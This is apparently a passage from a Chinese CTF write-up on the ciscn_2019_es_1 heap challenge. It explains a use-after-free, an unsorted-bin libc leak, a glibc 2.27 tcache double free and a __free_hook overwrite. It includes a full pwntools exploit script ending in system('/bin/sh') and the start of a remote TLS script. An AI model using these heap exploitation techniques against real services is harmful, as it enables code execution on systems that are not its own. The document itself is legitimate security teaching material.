(gdb) x/3gx INFO_ADDR          # INFO_ADDR 换成刚记录的 Company 地址
(gdb) x/16bx NAME_ADDR         # 按实际请求长度调整检查字节数，避免把越界显示误认成对象内容
```

如果 `break add` 的源码符号、`disassemble` 或局部变量显示和附件不同，先核对当前运行的 ELF 与符号，不要继续套这份伪代码。更多栈保护观察见 `Canary详解`；输入字节与短读见 `PWN输入输出与协议同步`。

### 1.3 附件到手后，先用这四步对照图和真实程序

```text
① 在 add 的两次 malloc 后记录 info 指针与 name 指针，并确认它们分别写进全局槽和 `Company.name`。
② 在 delete 的 free 入口看 $rdi，确认它等于哪一个 name 指针。
③ free 返回后检查 `info->name` 这个字段的内存槽是否仍保存旧地址；这是本二进制的机器行为，不表示 C 语言允许继续解引用已释放对象。
④ 调 show 前后看它到底从哪个地址读、输出在哪里遇到 \x00。
```

对应 GDB 的最小观察是：

```gdb
break __libc_free
continue
p/x $rdi                 # 本次被释放的 user pointer
x/4gx $rdi-0x10          # 该 chunk 的 header 与用户区开头
bt                       # 哪一个菜单路径调用了 free
```

如果第 ② 步发现 `$rdi` 不是你猜的 name 地址，或者第 ③ 步发现程序已经清零指针，那么公开路线就必须停下重画，不能继续套 UAF 模板。

### 1.4 请求大小不是 chunk 大小

菜单里输入的 `size` 是 `malloc(size)` 的**请求大小**；bin 按 allocator 规格化后的 **chunk size** 管理。典型 x86-64 glibc 环境中，`malloc(0x60)` 常对应 `0x70` 的 chunk，`malloc(0x410)` 常对应 `0x420` 的 chunk。这只是一组观察样例，换架构、glibc 或 allocator 都必须重算。

```text
malloc 返回的 user pointer = p

p - 0x10  [ prev_size ]       ← 是否有意义取决于前块状态
p - 0x08  [ size | flags ]    ← 例如 0x71 表示 chunk size 0x70 加低位标志
p + 0x00  [ name / fd / next ]
p + 0x08  [ name / bk / ...  ]
```

同一片 user area 会被不同阶段重新解释：在使用中它是 name；free 后它可能是 bin 的 `fd/bk/next`。因此：

```gdb
x/4gx  $rdi-0x10     # 以 8 字节整数看 header 与链表字段
x/32bx $rdi          # 以字节看 puts/%s 会在哪里遇到 \x00
```

`p64(addr)` 只是在 payload 里写入 `addr` 的 8 个小端字节；它不是“立刻修改 `addr` 指向的内存”。只有以后程序把某次 `malloc` 返回值真正变成 `addr`，再经由 `read` / `add` 写入，数据才会落到那个地址。

## 2. 漏洞：为什么这是 UAF

本附件的删除逻辑（2026-10-11 反汇编核验，**与下面抽象完全一致**）：

```c
void delete_note(size_t i) {
    free(table[i]->name);
    // 缺少：table[i]->name = NULL;
}

void show_note(size_t i) {
    puts(table[i]->name);   // 仍然使用被 free 的旧指针
}
```

`free(p)` 的意思不是“指针变量自动清空”。它只是把 `p` 指向的 chunk 交还给分配器；如果程序自己的 `table[i]->name` 还保存旧地址，它就成为悬空指针：

> [!note] C 语义与题目机器行为分层
> 这里的“字段仍保存旧地址”描述的是反汇编和运行时内存中，目标程序没有把字段槽写成 `NULL` 的机器行为；按 C11 语言语义，对象生命周期结束后，指向该对象的指针值变为不确定，不能把源代码中的后续解引用说成合法 C。CTF 分析要证明的是这份已编译二进制实际仍加载该槽并执行访问；这不构成一般 C 程序可依赖的保证。

```text
释放前：table[0].name ───> [ 用户数据 ]

free 后：table[0].name ───> [ 已释放 chunk 的用户区 ]
                              ↑
                         allocator 可在这里放链表字段
```

所以 `show(0)` 不是“正常显示旧字符串”，而是在读 allocator 已重新解释过的用户区。这就是泄露和后续链表控制的起点。

> [!success] 已核验（2026-10-11）
> `call()` 反汇编为 `if (table[idx]) free(table[idx]->name);`，**free 之后没有任何清零**；`show()` 为 `puts(table[idx]->name)`。所以悬空指针是真的，`Free(1); Show(1)` 直接可读已释放用户区 —— 这一节不再是假设。
> 但**“能 UAF”不等于“这条路能打通”**：下一节起每一步都依赖具体 glibc 行为（2.27 无 tcache key 检查、unsorted 泄露布局），那些仍须在配套 2.27 环境里实测。参见 `2026-10-11-ciscn_2019_es_1-附件核验与core现场`。

## 3. 第一阶段：从 unsorted bin 泄露 libc

### 人话

小块释放后经常优先进入 tcache，因此用户区只会看到 tcache 的单链表信息，未必直接含 libc 指针。公开复盘常选择一个足够大的 chunk，并在它后面留一个仍在使用的 guard chunk：

```text
[ large A ] [ guard B ]
     │            │
  free(A)      仍在使用
     │
不与 top / 后块合并；若实际进入 unsorted bin，A 的 fd / bk 会关联 libc 的 arena
```

之后再 `show(A)`。如果输出或内存观察中得到的是指向 `main_arena` 附近的地址，它是**libc 内的运行时地址**，不是 libc base。

### 公式：只减“已验证的模块内偏移”

```text
libc_base = leaked_unsorted_pointer - offset_of_that_exact_pointer_in_given_libc
```

不要把公开 WP 的 `-96`、`__malloc_hook` 偏移或 `main_arena` 常数搬进脚本。正确做法是：

1. 用题给 libc 启动本地目标；
2. 在 GDB 中确认已释放 chunk 实际在哪个 bin；
3. 记录泄露字节来自 fd 还是 bk；
4. 用**同一份 libc**找到这一字段对应的模块内偏移；
5. 再计算 `libc.address`，并用第二个符号或 mapping 交叉验证。

本题这份 2.27 里 `H = main_arena + 0x60 = __malloc_hook + 0x70` 的来历、同版本实测表和静态/GDB 核对命令，见 `libc泄露偏移定位`。

### GDB 观察点

```gdb
# 先在程序的 delete 菜单对应 free 调用前后断下
break __libc_free
continue
p/x $rdi                 # 这一次究竟 free 了哪个用户指针
x/4gx $rdi-0x10          # chunk header + 用户区开头
continue
bins                      # pwndbg 支持时：确认它去了哪个 bin
vis_heap_chunks           # 把 A、guard B、top 的关系画出来
```

预期不是某个固定地址，而是这条证据链：`A` 未与邻居合并 → `A` 确实进入 unsorted → `show(A)` 读取到 A 用户区的新内容 → leak 属于 libc mapping。

### 3.1 从原始字节到 libc 地址：不要先减魔数

`show()` 常按字符串输出。它会在 `\x00` 截断；公开脚本常见的 `recvuntil(b'\x7f')[-6:]` 只是对某种典型 64 位指针字节序的**解析技巧**，不是“拿到 libc leak”的证明。

先做这三个观察：

```gdb
x/16bx <A_user>         # 按字节看，小端序下低字节在前
x/2gx  <A_user>         # 把前两格按 64 位看成 fd / bk 候选
info proc mappings       # 确认候选值是否落在 libc mapping
```

之后才写：

```python
# leaked_addr 的身份已被 GDB 证明；exact_offset 来自同一份运行时 libc。
libc_base = leaked_addr - exact_offset
assert libc_base & 0xfff == 0
```

页对齐只是一层合理性检查；还要用第二个符号或 mapping 起点交叉验证。若 A 后面还有其他 unsorted 节点，`fd` 也可能指向 heap 中的空闲块，不能见到一个指针就默认它是 `main_arena + 0x60`。

## 4. 第二阶段：小 chunk 的 tcache 链为什么可被影响

假设程序允许对同一个悬空 name 指针再次删除，且目标旧版 glibc 的检查没有阻止它：

```text
第一次 free(S)：tcache[size] -> S
第二次 free(S)：tcache[size] -> S -> S       （仅是待验证模型）
```

再申请同尺寸 chunk 时，分配器会把链表表头给你。若程序让你写入这块被重用的用户区，你写的前 8 字节可能就是下一节点信息：

```text
重用的 S 用户区：

[ next 指针 ][ 其余用户数据 ... ]
       │
       └── 只有在目标版本、编码规则和完整性检查都允许时，才可能改成目标位置
```

这一步不是“写一个地址就必然 tcache poisoning”。至少验证：

- 两次 delete 是否真的调用了同一 `free`；
- 第二次是否被 key / double-free 检测拒绝；
- free 后 chunk 的实际 bin；
- 目标版本是否有 Safe-Linking；
- 写入后下一次、再下一次 malloc 分别返回哪里。

### 4.1 `next` 和 `count` 是两件事：不要只数“三次 malloc”

初学最容易把 tcache 当成只有 `head → next` 的链表。实际上还要记录该 size class 的 `count`。但**本题常用的 glibc 2.27 有一个很关键的历史细节**：`__libc_malloc` 选择 tcache 的条件是 `entries[tc_idx] != NULL`；`tcache_get` 取出节点时才做 `--counts[tc_idx]`。它不是先检查“`count > 0` 才许取”。

```text
entries/head：下一次从哪一个节点开始取
count：       allocator 认为这个抽屉里还有几个可取节点
```

这就能严谨解释老 WP 的经典序列。设 `S` 是同一小 name chunk，`T` 是目标写槽（这里为 `__free_hook`）：

```text
free(S) → free(S)             entries = S，S.next = S，count = 2
malloc #1 得到 S              entries = S，count = 1
在 S 用户区写入 T             S.next = T
malloc #2 再得到 S            entries = T，count = 0
malloc #3 得到 T              因为 entries 仍非 NULL；旧 tcache_get 再递减 count（原始上游 2.27 的 `counts` 是 `char`，此处会变成 -1）
```

所以，在**已经验证为原始上游 glibc 2.27 语义、且双重释放没有被拒绝**的前提下，`S.next = T` 后的第三次同规格申请会给出 `T`。这里 `entries` 是实际链表头；`counts` 只是 allocator 的数量记账。因为头指针仍非空，`__libc_malloc` 仍会调用 `tcache_get`；第三次取出会把 `char counts` 从 0 减到 -1。这个负数说明元数据账目已被重复节点/伪造链破坏，**不是正常用法，也不代表还能无限次取块**。要理解利用时看真实 head 与返回地址；要判断后续行为仍需按目标构建逐步验证。

这里必须把“glibc 2.27”再说精确一点：原始发布标签 [`glibc-2.27`](https://github.com/bminor/glibc/blob/glibc-2.27/malloc/malloc.c) 的 tcache entry 只有 `next`，没有后来的 `key`；这正是公开 WP 所说的 Ubuntu 18.04 初始 2.27 环境可以直接 `free(S) → free(S)` 的原因。题目菜单里的 `I hate 2.29` 也在提示这条历史路线。

但 `release/2.27` 维护分支后来可能带回补，现代系统更会直接使用 2.35 一类 libc 并报 `free(): double free detected in tcache 2`。所以本题正确的判断不是“所有叫 2.27 的文件都一样”，而是：**确认目标进程加载的是题目所需的早期 2.27 构建**。一旦 `delete(1)` 第二次 abort，先查 loader/libc；不要先改 offset，也不要把 `ELF('./libc-2.27.so')` 误当成切换了运行环境。

这仍不是跨版本模板：2.32+ Safe-Linking 会改变 `next` 的写法；更新的完整性检查与实际程序包装也可能让相同菜单序列失败。版本、`entries`、`count` 和第二次 free 的实际结果都必须在题给 libc 上验证。

正确的记录表应当是：

| 时刻 | 操作 | user pointer | entries/head | count | 证据 |
|---|---|---|---|---:|---|
| 释放前 | `delete(1)` | S |  |  | `$rdi`、`x/4gx S-0x10` |
| 第一次 free 后 | `free(S)` | S |  |  | `bins` / freed user area |
| 第二次 free 后 | 再次 `free(S)` | S |  |  | 是否 abort；实际链表字段 |
| 每一次 add 后 | `malloc(size)` | 返回值 |  |  | `__libc_malloc` 返回值、`bins` |

对本题需要的早期 2.27 构建，第二次 `free(S)` 应能通过；然后在 `__libc_malloc` 返回后逐次记录得到的 user pointer。若调试符号完整，才进一步观察 `tcache_get`、`entries[tc_idx]` 和 `counts[tc_idx]`；优化构建里这些内部内联符号未必能直接下断。2.32+ 则必须按 Safe-Linking 编码 next。可对照 [原始 glibc-2.27 的 tcache 实现](https://raw.githubusercontent.com/bminor/glibc/glibc-2.27/malloc/malloc.c) 中 `tcache_perthread_struct`、`tcache_get` 和 `__libc_malloc` 的条件；不要用后来维护分支的源码替代题目实际附件。

## 5. 第三阶段：旧 `__free_hook` 终点的真正含义

仅在题给 glibc 的 `free` 仍检查旧 hook 时，最终目标才可能是：

```text
hook_addr   = libc_base + offset(__free_hook)
system_addr = libc_base + offset(system)

[hook_addr] = system_addr
```

随后准备一个内容是 `"/bin/sh\x00"` 的可释放 chunk：

```text
p ───────> "/bin/sh\x00"

free(p)
  └─ 旧 hook 分支存在时，近似变成 system(p)
```

因此这里同时需要“函数对”和“参数对”。`__free_hook = system` 不会自动把任意 `free(p)` 变成 `system("/bin/sh")`。详见 `__free_hook劫持`。

> [!warning] 现代 glibc 边界
> glibc 2.34 之后，旧 malloc/free hooks 已退出正常 allocator 主路径。即使调试器能解析到同名符号，也不能据此推断 `free` 会调用它。先读 `glibc版本差异`，再反汇编和断点验证目标库。

## 6. 脚本骨架：把题目事实填进去，而不是复制地址

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

elf = ELF('./ciscn_2019_es_1', checksec=False)
libc = ELF('./libc.so.6', checksec=False)      # 只能换成题给、已验证的文件
io = process('./ciscn_2019_es_1')              # 本地需先完成 loader/libc 核验

def add(size, name, contact):
    # TODO：以附件真实菜单文字和读取函数为准
    pass

def show(index):
    # TODO：返回原始 bytes，不要提前 decode
    pass

def delete(index):
    # TODO：确认这一项是否只 free name，是否会清指针
    pass

# Stage 1：large + guard → delete(large) → show(large)
# leak = ...
# libc.address = leak - VERIFIED_OFFSET
# assert libc.address & 0xfff == 0

# Stage 2：只在 bins / GDB 已证实的条件下验证小块 tcache 状态。
# 记录每次 add/delete 的用户指针和 bin，不写死公开 WP 的请求大小。

# Stage 3：仅目标 libc 证明旧 hook 路径存在时：
# hook_addr = libc.sym['__free_hook']
# system_addr = libc.sym['system']
# 先 x/gx hook_addr 验证写前后，再触发 delete(binsh_index)。
```

这个脚本故意不含远程地址、固定偏移、`sleep` 或“一键 getshell”。它的价值是让每个 TODO 都对应一个需要观察的事实。

### 6.0 `ELF(libc)` 不等于进程正在使用该 libc

这是本题本地复现最常见的环境误区：

```python
libc = ELF('./libc-2.27.so')   # 只是在 Python 中读取符号和偏移
io = process('./chall')        # 仍按 chall 自己的 interpreter / 系统搜索路径启动
```

前一行不会替换后一个进程的共享库。若程序未 patch、目录里又没有配套 loader，本地进程仍可能加载 Ubuntu 22.04 的系统 libc；此时你会出现“脚本用 2.27 偏移，进程却按系统 libc 行为 abort”的错配。

先区分三件事：

| 你在看什么 | 能回答什么 | 不能单独证明什么 |
|---|---|---|
| `ELF('./libc-2.27.so')` | `system`、`__free_hook` 的**文件内偏移** | 目标进程是否加载它 |
| `ldd ./chall` | 默认启动时会解析到哪套库 | 用指定 loader 启动后的实际库 |
| `loader --list ./chall` / `io.libs()` | 本次启动实际会加载/已加载哪些库 | 该库是否允许某条利用路线 |

若题目给出一对匹配的 `ld-2.27.so` 与 `libc-2.27.so`，可以在**题目目录**通过它们启动副本；不要替换系统 `/lib` 下的任何文件：

```python
from pathlib import Path
from pwn import *

binary = Path('./ciscn_2019_es_1').resolve()
libdir = Path('./glibc227/lib/x86_64-linux-gnu').resolve()
ld = libdir / 'ld-2.27.so'
libc = ELF(str(libdir / 'libc.so.6'), checksec=False)

if not ld.is_file() or not (libdir / 'libc.so.6').is_file():
    raise FileNotFoundError('缺少同一套 glibc 的 ld-2.27.so 或 libc.so.6')

io = process([str(ld), '--library-path', str(libdir), str(binary)])
for path, base in io.libs().items():
    if 'libc.so.6' in path or 'ld-2.27.so' in path:
        log.info(f'loaded: {path} @ {base:#x}')
```

启动前也可只做只读核验：

```bash
./glibc227/lib/x86_64-linux-gnu/ld-2.27.so \
  --library-path ./glibc227/lib/x86_64-linux-gnu \
  --list ./ciscn_2019_es_1
```

这解决的是“**实际加载哪套库**”；它不自动绕过 tcache double-free 检查。环境正确后仍要先做下一节的预检。

### 6.0.1 先判断环境：本地和远程分别能知道什么

先画清边界：

```text
本地 process(...)                         远程 remote(host, port)
─────────────────                         ──────────────────
你能指定 loader / libc                    你不能替远程替换 loader / libc
你能看 /proc/<pid>/maps                    你没有远程的 /proc/<pid>/maps
你能 GDB 单步确认 free                     只能由泄露、题目附件、题面和行为推断
目标：让本地尽量复现远程                   目标：确认本地选的 libc 偏移是否匹配远程
```

本地先做这份“环境收据”，不要一上来跑 EXP：

```bash
# 1) ELF 本身要求哪个解释器（动态加载器）
readelf -lW ./ciscn_2019_es_1 | grep 'Requesting program interpreter'

# 2) 默认直接启动时会解析到哪些库；它不是指定 loader 后的最终证据
ldd ./ciscn_2019_es_1

# 3) 如果已有配套 loader + lib 目录，这是最有价值的启动前核验
./glibc227/lib/x86_64-linux-gnu/ld-2.27.so \
  --library-path ./glibc227/lib/x86_64-linux-gnu \
  --list ./ciscn_2019_es_1
```

程序已启动后，再取得真正的运行时证据：

```python
# pwntools：libs() 返回“已加载库路径 -> 运行时基址”的字典。
for path, base in io.libs().items():
    if 'libc.so.6' in path or 'ld-linux' in path or 'ld-2.27' in path:
        log.info(f'{path} @ {base:#x}')
```

或在 GDB：

```gdb
info sharedlibrary
info proc mappings
```

你要看到的是库的**完整路径**。例如看到 `/lib/x86_64-linux-gnu/libc.so.6`，说明仍是系统库；看到 `.../glibc227/lib/x86_64-linux-gnu/libc.so.6`，才说明当前进程正在使用题目目录中的那套库。

> [!failure] 真实翻车案例（2026-10-11，本题附件）
> 目录里明明躺着 `glibc227/ld-2.27.so`，但进程是**直接** `./ciscn_2019_es_1` 启动的，于是加载了系统 **glibc 2.35**。后果：`Free(1); Free(1)` 的第二次释放撞上 2.29+ 的 tcache key 检查 → `free(): double free detected in tcache 2` → `abort()` → SIGABRT，留下两份 core。
>
> 怎么**从 core 反推**出这件事（这就是“先判断环境”的实操）：
>
> ```text
> NT_PRPSINFO pr_psargs = './ciscn_2019_es_1 '        ← 命令行原始形态：没经过 ld-2.27.so
> maps: /usr/lib/x86_64-linux-gnu/libc.so.6           ← 库路径就是系统库
> 寄存器 RDI=RSI=pid, RDX=6                           ← tgkill(pid,pid,SIGABRT) 的 abort 路径
> `uint16_t counts` 单独只能支持 glibc 2.30+；Safe-Linking 支持 2.32+；若已确认 `[8]` 是随机进程级 `tcache_key`，则与 2.34+ 实现相符。这里的精确版本不是由“看起来随机”的堆字节推出，而是由 core 中 `Ubuntu GLIBC 2.35-0ubuntu3.13` 字符串确认。
> ```
>
> 教训一句话：**文件在位 ≠ 进程在用**。`ELF('./libc-2.27.so')` 只读偏移，`strings libc.so.6` 只证明文件版本，只有 core / `maps` / `io.libs()` 才证明**进程**加载了什么。完整现场见 `2026-10-11-ciscn_2019_es_1-附件核验与core现场`。

远程则不能运行上面的命令。远程环境的第一手证据通常是题目提供的 `libc.so.6` / `ld-linux...`、Dockerfile、题面信息，以及一次可解释的 libc 泄露。若泄露出的 `puts`、unsorted `fd` 等地址，减去**本地候选 libc 的相应偏移**得到页对齐基址，并能被第二个符号交叉验证，才有理由继续使用这份 libc；否则换候选，不要“调一调 offset”。

### 6.0.2 怎样安全修复本地环境

按优先级选择一种方式，三种方式不要混着用：

| 方式 | 适用条件 | 做法 | 完成后的验证 |
|---|---|---|---|
| `pwninit` | 附件已有匹配 libc 与 loader | 在题目目录生成 `*_patched` 副本 | `io.libs()` / GDB 显示题给 libc |
| `patchelf` 副本 | 需要自己指定 interpreter 与 rpath | 只复制并修改 `chall_patched`，原 ELF 不动 | `readelf -lW` + `ldd chall_patched` + 运行时 mapping |
| 显式 loader | 有 `ld-2.27.so` 与同目录 libc，但不想改 ELF | `process([ld, '--library-path', libdir, binary])` | `ld --list` + `io.libs()` |

只有一个 `libc-2.27.so`、没有同一套 `ld-2.27.so` 时，环境**还不完整**。不要把 Ubuntu 22.04 的 loader 和旧 libc 混用；应从同一个题目附件或同一个发行包中取得配对文件，再放入专用目录。下载或解压到题目目录是“提取运行时”，不是安装、更不是替换系统 libc。

典型目录结构：

```text
ciscn_2019_es_1/
├── ciscn_2019_es_1            # 原题，不改
├── ciscn_2019_es_1_patched    # 可选：只供本地调试
└── glibc227/
    └── lib/x86_64-linux-gnu/
        ├── ld-2.27.so
        ├── libc-2.27.so
        └── libc.so.6 -> libc-2.27.so
```

对于本题公开常用的 Ubuntu 18.04 初始构建，可从 Ubuntu Archive 的同一 `libc6` 包中**提取**配对文件；以下命令只解压到当前题目目录，不会安装或修改系统库：

```bash
mkdir -p glibc227
curl -LO https://archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb
dpkg-deb -x libc6_2.27-3ubuntu1_amd64.deb glibc227

# 只检查，不执行题目：两项都应存在
ls -l glibc227/lib/x86_64-linux-gnu/{ld-2.27.so,libc-2.27.so}

# 让 loader 的默认 SONAME 查找能找到这份同包 libc
ln -sf libc-2.27.so glibc227/lib/x86_64-linux-gnu/libc.so.6
```

若题目附件已经提供 loader/libc，优先使用附件，不必下载替代包。若你已有单独下载的 `libc-2.27.so`，不要和这个新包里的 `ld-2.27.so` 混用；后续 `LIBC`、`LD`、`LIBDIR` 必须都指向同一套文件。

修好环境后的最小验收顺序是：

```text
① --list 指向目标目录的 libc
② 本地脚本打印 io.libs()，路径仍指向目标目录
③ 单独执行 double-free 预检，不跑完整 EXP
④ 预检通过后才做 unsorted leak
⑤ 泄露基址与同一份 libc 的符号偏移能互相验证
⑥ 最后才把本地 EXP 切到 REMOTE
```

`pwninit` 的用途和副本原则见 [pwninit 官方项目](https://github.com/io12/pwninit)；`process(argv)` 与 `libs()` 的参数和返回内容可见 [pwntools process 文档](https://docs.pwntools.com/en/stable/tubes/processes.html)。

### 6.1 历史附件可用的候选复现脚本

下面这份脚本对应公开资料中常见的历史路线：大 name chunk 进 unsorted 泄露 libc；小 name chunk 的重复释放形成旧 tcache dup；最后写 `__free_hook = system`，再 `free("/bin/sh")`。它是**候选复现脚本**，不是看到 “glibc 2.27” 就能无条件运行的万能 EXP。

它只适用于以下条件都已满足的本地附件或授权远程环境：

```text
□ 菜单提示与本题一致：add / show / call(delete)
□ delete 只 free name，且没有把 name 指针清零
□ 实际加载的是题目所需的早期 glibc 2.27 构建，而不是 Ubuntu 22.04 的系统 libc
□ 在该构建与当前菜单逻辑下，两次 free 同一小 name 确实不会中止
□ 大块 show 的输出确实从 unsorted chunk 的 fd 开始
```

先在**单独启动的一次进程**里做这个预检，预检过程不能与正式利用共用状态：

```text
add(0x20, "S") → delete(S) → delete(S)
```

若第二次 `delete(S)` 出现 `double free detected in tcache`、程序断开或命中 `malloc_printerr`，先停止使用本节脚本，并先检查**实际加载的 loader/libc**；这是本题最常见的本地环境错配。若已确认加载的是题目所需的早期 2.27 构建却仍中止，才说明附件与公开路线不同，需要重新分析 primitive。若预检通过，仍要在 GDB 中确认两次 `free` 的 `$rdi` 相同、该 size class 的 `entries` 状态符合本节图示。

> [!warning] 本题附件已确认踩中这条（2026-10-11）
> 附件目录自带的 `ciscn_2019_es_1.py` **写对了**启动方式：`process([libc_dir + '/ld-2.27.so', '--library-path', libc_dir, binary])`。但两次崩溃的 core 显示进程是**裸跑** `./ciscn_2019_es_1`（`pr_psargs='./ciscn_2019_es_1 '`），用的是系统 glibc 2.35，于是第二次 `free` 被拒 → SIGABRT。正确的最小启动方式是：
>
> ```bash
> ./glibc227/lib/x86_64-linux-gnu/ld-2.27.so \
>   --library-path ./glibc227/lib/x86_64-linux-gnu ./ciscn_2019_es_1
> ```
>
> 另注：脚本里 `name` 是定长 `read`，短输入不会补 `\x00`，所以 `add(0x18, b'/bin/sh\x00')` 这类写法要自己保证长度；短于 size 的输入会把尾部残留当成字符串的一部分。详见 `2026-10-11-ciscn_2019_es_1-附件核验与core现场`。

```python
#!/usr/bin/env python3
from pathlib import Path
from pwn import *

context.update(arch='amd64', os='linux', log_level='debug')

# 本地目录建议放：原 ELF、pwn_patched（可选）、同一套早期 2.27 的 libc 与 loader。
ORIGINAL = Path('./ciscn_2019_es_1')
PATCHED = Path('./ciscn_2019_es_1_patched')
BIN_PATH = str(PATCHED if PATCHED.exists() else ORIGINAL)

# 只读符号文件。它本身不会影响 process() 实际加载哪个 libc。
# 本地显式启动例子：
# python3 exp.py LIBC=./glibc227/lib/x86_64-linux-gnu/libc.so.6 \
#   LD=./glibc227/lib/x86_64-linux-gnu/ld-2.27.so \
#   LIBDIR=./glibc227/lib/x86_64-linux-gnu
LIBC_PATH = Path(args.LIBC or './libc-2.27.so')
if not LIBC_PATH.exists():
    raise FileNotFoundError(
        f'找不到 {LIBC_PATH}；请传 LIBC=题目给的libc路径，不能用系统 libc 代替。'
    )

elf = ELF(BIN_PATH, checksec=False)
libc = ELF(str(LIBC_PATH), checksec=False)

def start():
    if args.REMOTE:
        if not args.HOST or not args.PORT:
            raise ValueError('远程运行：python3 exp.py REMOTE HOST=<host> PORT=<port>')
        return remote(args.HOST, int(args.PORT))
    # 两种本地方式二选一：
    # 1) 已由 pwninit / patchelf 做好 pwn_patched：直接 process(BIN_PATH)。
    # 2) 显式传 LD 与 LIBDIR：真的用题给 loader + library-path 启动。
    if args.LD or args.LIBDIR:
        if not args.LD or not args.LIBDIR:
            raise ValueError('显式运行旧 glibc：同时传 LD=<ld路径> LIBDIR=<库目录>')
        loader = Path(args.LD)
        libdir = Path(args.LIBDIR)
        if not loader.is_file() or not libdir.is_dir():
            raise FileNotFoundError('LD 或 LIBDIR 路径不存在')
        return process([str(loader), '--library-path', str(libdir), BIN_PATH])
    if PATCHED.exists():
        return process(BIN_PATH)
    raise RuntimeError(
        '不能静默回退到系统 libc：请使用 pwn_patched，或传 LD=<ld-2.27.so> LIBDIR=<目录>'
    )

io = start()
if not args.REMOTE:
    for path, base in io.libs().items():
        if 'libc.so.6' in path or 'ld-linux' in path or 'ld-2.27' in path:
            log.info(f'loaded: {path} @ {base:#x}')
sla = lambda marker, data: io.sendlineafter(marker, data)
sa  = lambda marker, data: io.sendafter(marker, data)

def add(size, name=b'', phone=b'', *, pad_name=True):
    """一项通常会申请 info 结构体 + name chunk。"""
    if len(name) > size:
        raise ValueError('name 长度不能超过本次请求大小')
    if len(phone) > 0xc:
        raise ValueError('phone 在公开反编译中是 0xc 字节；附件不同则改这里')

    sla(b'choice:', b'1')
    sla(b"Please input the size of compary's name", str(size).encode())
    # 普通数据默认填满 read 长度；写函数指针时可选择只发目标字节数。
    # read(0, buf, size) 允许短读，故 pad_name=False 仍须用 GDB 核对返回值与实际写入范围。
    wire_name = name.ljust(size, b'\x00') if pad_name else name
    sa(b'please input name:', wire_name)
    sa(b'please input compary call:', phone.ljust(0xc, b'\x00'))

def show(index):
    sla(b'choice:', b'2')
    sla(b'Please input the index:', str(index).encode())

def delete(index):
    sla(b'choice:', b'3')
    sla(b'Please input the index:', str(index).encode())

# ---- Stage 1：unsorted-bin leak ------------------------------------------
# 0x410 request 在典型 2.27 中规格化为超过 tcache 最大范围的 chunk。
# 1 号小块充当 guard，避免 0 号释放后直接与 top 合并。
add(0x410, b'A')              # index 0：大 name chunk
add(0x20,  b'B')              # index 1：稍后用于旧 tcache dup，同时也是 guard
add(0x20,  b'/bin/sh\x00')    # index 2：最终 free 的参数

delete(0)
show(0)

# 本题公开输出会先打印 "name:\n"，随后是已释放 chunk 用户区开头的 fd。
io.recvuntil(b'name:\n')
leak = u64(io.recvn(6).ljust(8, b'\x00'))

# 下面的 0x60/0x10 只对应“已确认 fd 是 main_arena+0x60”的旧 2.27 模型。
# 先在 GDB 用 bins、x/4gx <A_user> 和 mappings 验证，才允许保留这两项。
main_arena = leak - 0x60
malloc_hook = main_arena - 0x10
libc.address = malloc_hook - libc.sym['__malloc_hook']

if libc.address & 0xfff:
    raise RuntimeError('libc base 没有页对齐：leak 字段、libc 文件或输出解析不匹配')

free_hook = libc.sym['__free_hook']
system = libc.sym['system']
log.success(f'leak        = {leak:#x}')
log.success(f'libc.address = {libc.address:#x}')
log.success(f'__free_hook = {free_hook:#x}')
log.success(f'system      = {system:#x}')

# ---- Stage 2：历史 tcache dup --------------------------------------------
# 运行前必须确认加载了题目所需的早期 2.27 构建，并用最小测试验证 delete(1) 两次可通过。
# 系统 libc 或后来回补的 2.27 构建报 double free 时，不要继续执行这一段。
delete(1)
delete(1)

# 已确认第二次 delete 可通过时，旧版上游 glibc 2.27 的关键细节：
# malloc 快速分支检查 entries[tc_idx] != NULL；tcache_get 弹出节点并递减 counts。
# 因此重复项可让 entries 指向 hook，即便 counts 与链表长度暂时不一致；这不是新版通用规则。
add(0x20, p64(free_hook))
add(0x20, b'C')
# 目标槽只需要改写一个 8-byte 函数指针，不要把 0x20 字节的填充零也写到后续 libc 数据。
# 当前 helper 只避免主动补齐；仍要确认目标 read 实际收到 8 字节，并确认下一次 phone 输入未串进 name。
add(0x20, p64(system), pad_name=False)

# ---- Stage 3：触发 --------------------------------------------------------
# 此时 delete(2) 的参数仍是指向 "/bin/sh\\x00" 的 name 指针。
delete(2)
io.interactive()
```

运行方式：

```bash
# 本地显式加载：要求 ld 与 libc 来自同一套早期 2.27 构建。
python3 exp.py LIBC=./glibc227/lib/x86_64-linux-gnu/libc.so.6 \
  LD=./glibc227/lib/x86_64-linux-gnu/ld-2.27.so \
  LIBDIR=./glibc227/lib/x86_64-linux-gnu

# 远程：远程地址和端口只从当前授权题目页面取得
python3 exp.py REMOTE HOST=<host> PORT=<port> LIBC=./libc-2.27.so
```

> [!warning] 这个脚本的三个“不能跳过”
> 1. `0x60` 是 **leak 所属字段相对 main_arena 的偏移假设**，不是“所有 unsorted leak 都减 96”。
> 2. `p64(free_hook)` 只在**旧 tcache 没有 Safe-Linking**、且重复释放确实成立时才是裸地址；2.32+ 不能这样写。
> 3. 2.34+ 的正常 `free` 不会按老路线使用 `__free_hook`。即使脚本算得出地址，也不代表最后的 `delete(2)` 会变成 `system("/bin/sh")`。

### 6.2 ：CTF2 当前远程运行脚本

> [!note] 这不是 6.1 的同尺寸复现
> 6.1 本地候选脚本的 tcache 请求为 `0x20`，这里保留的远程脚本为 `0x60`。它们是两套不同参数的历史实例，不要把两段代码拼成一条链；需分别查看实际 chunk size class、释放后的 bin 状态，以及目标地址是否会被对应尺寸的分配返回。当前两种写法都没有本轮的整题动态通过证据。

下面保留一份 CTF2 TLS 远程连接脚本，作为**目标配置记录**。本页没有独立运行日志证明连接、利用链或取 flag 成功。它与 6.1 的本地模板不同：这里使用 `remote(..., ssl=True, sni=...)`，因此不会也不能把本机的 `ld-2.27.so` 送到远程；本地 `glibc227` 目录只用于读取同版本 `libc.so.6` 的符号偏移。

> [!warning] 远程地址具有时效性，脚本不等于利用成功
> 该 host、端口与 SNI 只对应用户当前授权的 CTF2 实例。这里保留的是远程连接脚本；本页没有足以证明利用链成功或拿到 flag 的运行记录。实例重置、结束或换题后不要迁移目标；本地调试仍应使用 6.0.2 的 loader/libc 修复流程。

```python
from pwn import *

context(os='linux', arch='amd64')

binary = './ciscn_2019_es_1'
libc_dir = './glibc227/lib/x86_64-linux-gnu'
libc = ELF(libc_dir + '/libc.so.6')

r = remote(
    'challenge.example.invalid',
    9999,
    ssl=True,
    sni='challenge.example.invalid',
)

